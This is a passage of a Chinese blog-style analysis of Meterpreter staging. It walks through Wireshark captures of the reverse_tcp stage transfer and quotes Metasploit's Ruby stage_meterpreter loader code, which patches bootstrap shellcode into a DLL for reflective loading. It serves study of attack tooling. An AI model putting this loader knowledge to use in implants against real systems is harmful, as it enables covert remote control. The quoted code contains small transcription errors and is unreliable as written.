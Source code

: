 到了这里，我们已经接收到了真正的载荷了，但是现在还无法运行，因为在内存中没有人调用它，下面我们先通过wireshark来分析上线的过程，看metasploit都发过来了什么，在分析metsrv.dll是如何被调用的。

### 上线流量分析

服务端做好监听，wireshark做好过滤规则

成功抓取到了数据包<br/>  

<br/> 从下图中可以看到，我们先与metasploit建立了链接，对应上面asm_reverse_tcp函数，接着metasploit向我们发送了一个Len为4的数据包，此数据包中的数据代表载荷的总大小。

数据包中的数据，是0x2be43，因为数据包中的数据是按照小端存储的方式存储的，所以需要转换一下。

0x2be43=179779(十进制)，这个值对应了metasploit向我们发送的载荷大小。

接着看后面的数据包，从图中可以看到，msf向我们发送了stage的开头，上面提到过msf不会一次性将整个stage发送过来，所以从图中可以看到metasploit一直在发送数据。

<br/> 我们来看下接收完成后，是如何调用stage的

### stage执行过程

stage是通过reflective dll(反射式注入)技术调用的，因为是上线原理所以不会涉及到此技术原理。

meterpreter_loader.rb文件中的汇编用于调用stage，我们看一下这个文件

```
def stage_meterpreter(opts={}) 
    # Exceptions will be thrown by the mixin if there are issues. 
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))//得到ReflectiveLoader函数的偏移 
    asm_opts = { 
        rdi_offset: offset, 
        length: dll.length, 
        stageless: opts[:stageless] == true
    } 
    asm = asm_invoke_metsrv(asm_opts) 
    # generate the bootstrap asm 

    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string 

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
    if bootstrap.length &gt; 62 
        raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
    end 

    # patch the bootstrap code into the dll's DOS header... 
    dll[ 0, bootstrap.length ] = bootstrap dll end
    dll 
end

```

来看一下下面的代码。

此函数功能：读取dll，接着调用parse_pe函数得到ReflectiveLoader函数的偏移，在第11行返回了dll的数据与函数的便宜。
